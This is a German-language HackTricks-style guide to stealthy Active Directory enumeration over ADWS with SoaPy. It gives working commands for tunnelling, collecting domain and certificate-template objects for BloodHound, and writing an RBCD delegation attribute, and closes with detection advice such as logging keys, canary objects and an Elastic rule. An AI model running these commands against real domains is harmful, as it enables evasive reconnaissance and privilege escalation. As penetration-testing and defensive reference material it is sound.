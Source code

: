 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## Was ist ADWS?

Active Directory Web Services (ADWS) ist **standardmäßig auf jedem Domänencontroller seit Windows Server 2008 R2 aktiviert** und hört auf TCP **9389**. Trotz des Namens ist **kein HTTP beteiligt**. Stattdessen exponiert der Dienst LDAP-ähnliche Daten durch einen Stapel proprietärer .NET-Frame-Protokolle:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Da der Datenverkehr in diesen binären SOAP-Frames gekapselt ist und über einen ungewöhnlichen Port reist, **ist die Enumeration über ADWS weitaus weniger wahrscheinlich, dass sie inspiziert, gefiltert oder signiert wird als klassischer LDAP/389 & 636 Verkehr**. Für Betreiber bedeutet dies:

* Stealthier Recon – Blaue Teams konzentrieren sich oft auf LDAP-Abfragen.
* Freiheit, von **nicht-Windows-Hosts (Linux, macOS)** zu sammeln, indem 9389/TCP durch einen SOCKS-Proxy getunnelt wird.
* Die gleichen Daten, die Sie über LDAP erhalten würden (Benutzer, Gruppen, ACLs, Schema usw.) und die Fähigkeit, **Schreibvorgänge** durchzuführen (z. B. `msDs-AllowedToActOnBehalfOfOtherIdentity` für **RBCD**).

> HINWEIS: ADWS wird auch von vielen RSAT GUI/PowerShell-Tools verwendet, sodass der Datenverkehr mit legitimen Administrationsaktivitäten vermischt werden kann.

## SoaPy – Native Python-Client

[SoaPy](https://github.com/logangoins/soapy) ist eine **vollständige Neurealisierung des ADWS-Protokollstapels in reinem Python**. Es erstellt die NBFX/NBFSE/NNS/NMF-Frames bytegenau und ermöglicht das Sammeln von Unix-ähnlichen Systemen, ohne die .NET-Laufzeit zu berühren.

### Hauptmerkmale

* Unterstützt **Proxying über SOCKS** (nützlich von C2-Implantaten).
* Fein abgestimmte Suchfilter identisch zu LDAP `-q '(objectClass=user)'`.
* Optionale **Schreib**-Operationen ( `--set` / `--delete` ).
* **BOFHound-Ausgabemodus** für die direkte Eingabe in BloodHound.
* `--parse`-Flag zur Verschönerung von Zeitstempeln / `userAccountControl`, wenn menschliche Lesbarkeit erforderlich ist.

### Installation (Operator-Host)
```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
## Stealth AD Collection Workflow

Der folgende Workflow zeigt, wie man **Domain- und ADCS-Objekte** über ADWS enumeriert, sie in BloodHound JSON konvertiert und nach zertifikatbasierten Angriffspfaden sucht – alles von Linux aus:

1. **Tunnel 9389/TCP** vom Zielnetzwerk zu deinem Rechner (z.B. über Chisel, Meterpreter, SSH dynamisches Port-Forwarding usw.). Exportiere `export HTTPS_PROXY=socks5://127.0.0.1:1080` oder verwende SoaPy’s `--proxyHost/--proxyPort`.

2. **Sammle das Root-Domain-Objekt:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-q '(objectClass=domain)' \
| tee data/domain.log
```
3. **Sammeln Sie ADCS-bezogene Objekte aus der Konfigurations-NC:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-dn 'CN=Configuration,DC=ludus,DC=domain' \
-q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
(objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
| tee data/adcs.log
```
4. **In BloodHound umwandeln:**
```bash
bofhound -i data --zip   # produces BloodHound.zip
```
5. **Laden Sie die ZIP** in die BloodHound-GUI hoch und führen Sie Cypher-Abfragen wie `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` aus, um Zertifikatseskalationspfade (ESC1, ESC8 usw.) offenzulegen.

### Schreiben von `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
--set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
Kombinieren Sie dies mit `s4u2proxy`/`Rubeus /getticket` für eine vollständige **ressourcenbasierte eingeschränkte Delegation**-Kette.

## Erkennung & Härtung

### Ausführliches ADDS-Logging

Aktivieren Sie die folgenden Registrierungsschlüssel auf Domänencontrollern, um teure / ineffiziente Suchen von ADWS (und LDAP) sichtbar zu machen:
```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
Ereignisse erscheinen unter **Directory-Service** mit dem vollständigen LDAP-Filter, selbst wenn die Abfrage über ADWS eingegangen ist.

### SACL Canary Objects

1. Erstellen Sie ein Dummy-Objekt (z.B. deaktivierter Benutzer `CanaryUser`).
2. Fügen Sie eine **Audit** ACE für das _Everyone_ Prinzipal hinzu, die auf **ReadProperty** geprüft wird.
3. Jedes Mal, wenn ein Angreifer `(servicePrincipalName=*)`, `(objectClass=user)` usw. ausführt, gibt der DC **Event 4662** aus, das die echte Benutzer-SID enthält – selbst wenn die Anfrage proxyisiert oder von ADWS stammt.

Elastic vorgefertigtes Regelbeispiel:
```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
## Tooling Summary

| Zweck | Tool | Anmerkungen |
|-------|------|-------------|
| ADWS Enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, lesen/schreiben |
| BloodHound Ingest | [BOFHound](https://github.com/bohops/BOFHound) | Konvertiert SoaPy/ldapsearch Protokolle |
| Zertifikat Kompromittierung | [Certipy](https://github.com/ly4k/Certipy) | Kann über denselben SOCKS proxyisiert werden |

## References

* [SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}
